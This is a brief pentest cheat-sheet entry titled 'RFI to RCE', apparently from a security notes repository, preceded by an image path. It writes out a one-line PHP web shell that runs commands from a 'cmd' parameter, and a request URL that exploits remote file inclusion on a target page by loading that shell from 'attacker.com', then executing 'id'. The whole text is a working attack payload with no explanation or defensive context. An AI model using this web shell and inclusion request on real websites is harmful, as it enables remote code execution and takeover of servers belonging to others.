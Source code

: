 # RFI

### RFI to RCE
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```
www.website.com/abc.php?url=//attacker.com/share/shell.php&cmd=id
```


